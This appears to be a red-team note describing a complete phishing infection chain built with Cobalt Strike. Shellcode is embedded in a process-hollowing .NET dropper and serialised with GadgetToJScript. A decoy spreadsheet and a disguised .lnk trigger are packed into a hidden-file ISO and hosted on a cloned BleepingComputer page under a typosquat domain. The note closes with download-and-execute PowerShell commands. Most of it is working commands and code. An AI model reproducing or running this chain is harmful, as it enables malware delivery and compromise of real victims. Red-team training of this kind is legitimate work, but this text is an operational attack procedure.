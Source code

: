 
#### Dropper

1. Make directory for dependencies for infection chain
2. Create a Visual Studio **Class Library (.NET Framework)**

> Place in the same directory: Checked

3. Add _**http_x64.xprocess.bin**_ (shellcode) as an embedded resource.
	1. Right-click on the project in the Solution Explorer and go to **Add > Existing Item**.  
	2. Select a payload file to embed in the dropper, e.g. `http_x64.exe`
	3. Then in its properties, change the **Build Action** to **Embedded Resource**.

4. Use the linked process hollowing dropper [source code](obsidian://open?vault=Offensive%20Security&file=root%2FRed%20Teaming%2FCobalt%20Strike%20Assumed%20Breach%2F1.%20Initial%20Compromise%2FFoothold%20Establishment%2FDroppers%2FProcess%20Hollowing%20Dropper) in Class1.cs
5. Build the project to a DLL in Release mode.

6. Serialise the DLL using G2JS.
```powershell
C:\Tools\GadgetToJScript\GadgetToJScript\bin\Release\GadgetToJScript.exe -a C:\Users\Attacker\source\repos\MyDropper\bin\Release\MyDropper.dll -w js -b -o C:\Payloads\deals\deals
```

#### Decoy, Trigger, Container

 > & 'C:\Program Files\Microsoft Office\Office16\OSPPREARM.EXE'
1. Create decoy Excel spreadsheet file and save in deals directory

> **Remove the authors from the document**

```xml
id  product      discount  code
1   Prodder      56%       54473-150
2   Viva         9%        0378-5713
3   Aerified     22%       43742-0187
4   Zaam-Dox     26%       35356-687
5   Rank         41%       63323-300
6   Pannier      61%       50804-302
7   Wrapsafe     32%       67046-223
8   Voltsillam   58%       55910-721
9   Ventosanzap  4%        0485-0051
10  Otcom        54%       36987-2281
```

2.  Create new `.lnk` file with the following

>  This will start command prompt, open the decoy and start payload in background

```powershell
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\deals\deals.xlsx.lnk")
$lnk.TargetPath = "%COMSPEC%"
$lnk.Arguments = "/C start deals.xlsx && wscript deals.js"
$lnk.IconLocation = "%ProgramFiles%\Microsoft Office\root\Office16\EXCEL.EXE,0"
$lnk.Save()
```

3. In a wsl shell use PackMyPayload to  pack the files into an `iso`.

> Hide the decoy and payload. Only show trigg‌er

```bash
python3 /mnt/c/Tools/PackMyPayload/PackMyPayload.py -H deals.xlsx,deals.js /mnt/c/Payloads/deals/ /mnt/c/Payloads/deals/deals.iso
```

#### Delivery
1. Host the ISO on Cobalt Strike's built-in web server.
	1.  Go to **Site Management > Host File**.
	2.  File: C:\Payloads\deals\deals.iso
	3.  Local URI: /deals.iso
	4.  Local Host: www.bleepincomputer.com
	5.  Click **Launch**.
![[Pasted image 20250702212549.png]]

2. Clone a legitimate web page (**Site Management > Clone Site**).
	1.  Clone URL: https://deals.bleepingcomputer.com
	2.  Local URI: /deals
	3.  Local Host: www.bleepincomputer.com
	4.  Attack: _deals.iso_
	5.  Click **Clone**.
![[Pasted image 20250702212802.png]]

```
iexplore http://www.bleepincomputer.com:80/deals
```

```powershell
iex(iwr "http://www.bleepincomputer.com/demo" -useb)
```